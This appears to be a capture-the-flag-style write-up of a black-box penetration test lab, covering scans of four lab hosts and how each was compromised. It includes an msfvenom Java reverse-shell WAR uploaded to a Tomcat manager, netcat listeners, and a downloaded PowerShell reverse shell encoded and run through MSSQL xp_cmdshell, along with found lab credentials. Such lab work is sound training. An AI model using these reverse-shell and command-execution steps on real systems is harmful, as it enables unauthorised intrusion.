 # Untitled

## Prework

### Connect to VPN

```bash
sudo openvpn black-box-penetration-test-1.ovpn
```

### Scan network

```bash
sudo nmap -sn 172.16.64.0/24 --exclude 172.16.64.10 -oN hostAlive.nmap &&
cat hostAlive.nmap | grep for | awk {'print $5'} > ips.txt &&
sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oX portScan.xml
```

```bash
wget https://gist.githubusercontent.com/fer/4b8e978ab73b0db151594351d1e854d6/raw/1e496bfe6511e5597a81a369f884c7a715cac732/nmap2md.sh
```

```bash
sh nmap2md.sh portScan.xml | xclip
```

## Scanner

> Generated on **Sun Jul 11 13:40:33 2021** with `nmap 7.91`.

```bash
nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oX portScan.xml
```

## Hosts Alive \(4\)

| Host | OS | Accuracy |
| :--- | :--- | :--- |
| 172.16.64.101 | Linux 3.12 | 95% |
| 172.16.64.140 | Linux 3.12 | 95% |
| 172.16.64.182 | Linux 3.12 | 95% |
| 172.16.64.199 | Microsoft Windows 10 | 96% |

## Open Ports and Running Services

### 172.16.64.101 \(Linux 3.12 - 95%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 22/tcp | open | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 8080/tcp | open | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 9080/tcp | open | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 59919/tcp | open | http | Apache httpd 2.4.18 |

#### dirbuster

* Target URL: [http://172.16.64.101:8080](http://172.16.64.101:8080)
* File with list of dirs/files: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
* File Extension: \* 

![](../../.gitbook/assets/dirbuster-101-1.png)

![](../../.gitbook/assets/dirbuster-101-2.png)

#### Gaining access

{% hint style="info" %}
Trying to access unsuccessfully for a couple of times will get you redirected to [**http://172.16.64.101:8080/host-manager/html**](http://172.16.64.101:8080/host-manager/html), where the following information is shown:

```text
<role rolename="admin-gui"/>
<user username="tomcat" password="s3cret" roles="admin-gui"/>
```

[**http://172.16.64.101:8080/manager/html**](http://172.16.64.101:8080/manager/html) ****allows you to upload a war file.
{% endhint %}

#### Generate your reverse shell with `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.64.10 LPORT=1234 -f war > shell.war
```

```bash
nc -lvp 1234
```

{% hint style="success" %}
**Flag encountered!**

```bash
tomcat8@xubuntu:/home/developer$ cat flag.txt
Congratulations, you got it!
tomcat8@xubuntu:/home/adminels/Desktop$ cat flag.txt 
You did it!
```
{% endhint %}

### 172.16.64.140 \(Linux 3.12 - 95%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 80/tcp | open | http | Apache httpd 2.4.18 |

#### dirbuster

![](../../.gitbook/assets/dirbuster-140-1.png)

![](../../.gitbook/assets/dirbuster-140-2.png)

#### Discovering info

On this url we find the following connection parameters for a SQL database server: [**http://172.16.64.140:80/project/backup/test/sdadas.txt**](http://172.16.64.140:80/project/backup/test/sdadas.txt):

```text
Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt
```

{% hint style="success" %}
**Flag encountered!**

Under [**http://172.16.64.140/project/354253425234234/flag.txt**](http://172.16.64.140/project/354253425234234/flag.txt) we find the following content:

```text
Congratulations, you exploited this machine!
Now continue to others.
```
{% endhint %}

### 172.16.64.182 \(Linux 3.12 - 95%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 22/tcp | open | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |

```bash
sshpass -p dF3334slKw ssh developer@172.16.64.182
```

{% hint style="success" %}
**Flag encountered**!

```text
sshpass -p dF3334slKw ssh developer@172.16.64.182
developer@xubuntu:~$ find . | grep flag
developer@xubuntu:~$ cat flag.txt 
Congratulations, you got it!
```
{% endhint %}

### 172.16.64.199 \(Microsoft Windows 10 - 96%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 135/tcp | open | msrpc | Microsoft Windows RPC |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn |
| 445/tcp | open | microsoft-ds |  |
| 1433/tcp | open | ms-sql-s | Microsoft SQL Server 2014 12.00.2000.00; RTM |
| 49664/tcp | open | msrpc | Microsoft Windows RPC |
| 49665/tcp | open | msrpc | Microsoft Windows RPC |
| 49666/tcp | open | msrpc | Microsoft Windows RPC |
| 49667/tcp | open | msrpc | Microsoft Windows RPC |
| 49668/tcp | open | msrpc | Microsoft Windows RPC |
| 49669/tcp | open | msrpc | Microsoft Windows RPC |
| 49670/tcp | open | msrpc | Microsoft Windows RPC |
| 49943/tcp | open | ms-sql-s | Microsoft SQL Server 2014 12.00.2000 |

```bash
# Grab payload
wget https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1;

# Substitute ip and port
sed -i 's/127.0.0.1/172.16.64.10/; s/413/1234/' mini-reverse.ps1;

# Encode payload
cat mini-reverse.ps1 | iconv -f ascii -t utf16 | tail -c +3 | base64 -w 0 > encoded_payload;
cat encoded_payload # We'll use this payload in our shell
# Open listener In your terminal
```

```bash
nc -l 1234
```

```bash
mssql-cli -S 172.16.64.199 -U fooadmin -P fooadmin
```

```text
enable_xp_cmdshell
RECONFIGURE
xp_cmdshell whoami
xp_cmdshell powershell -e <payload_from_previous_step>
```

{% hint style="success" %}
**Flag encountered!**

```text
cd c:\
where /r c:\ flag.txt
cd c:\Users\AdminELS\Desktop\
cat flag.txt
Congratulations! You exploited this machine! 
```
{% endhint %}

```text
PS C:\Users\AdminELS\Desktop> cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAlGWzjgKVHcpaDFvc6877t6ZT2ArQa+OiFteRLCc6TpxJ/lQFEDtmxjTcotik7V3DcYrIv3UsmNLjxKpEJpwqELGBfArKAbzjWXZE0VubmBQMHt4WmBMlDWGcKu8356blxom+KR5S5o+7CpcL5R7UzwdIaHYt/ChDwOJc5VK7QU46G+T9W8aYZtvbOzl2OzWj1U6NSXZ4Je/trAKoLHisVfq1hAnulUg0HMQrPCMddW5CmTzuEAwd8RqNRUizqsgIcJwAyQ8uPZn5CXKWbE/p1p3fzAjUXBbjB0c7SmXzondjmMPcamjjTTB7kcyIQ/3BQfBya1qhjXeimpmiNX1nnQ== rsa-key-20190313###ssh://developer:dF3334slKw@172.16.64.182:22############################################################################################################################################################################################
```

{% hint style="info" %}
`ssh://developer:dF3334slKw@172.16.64.182:22` seems like a ssh connection string.
{% endhint %}

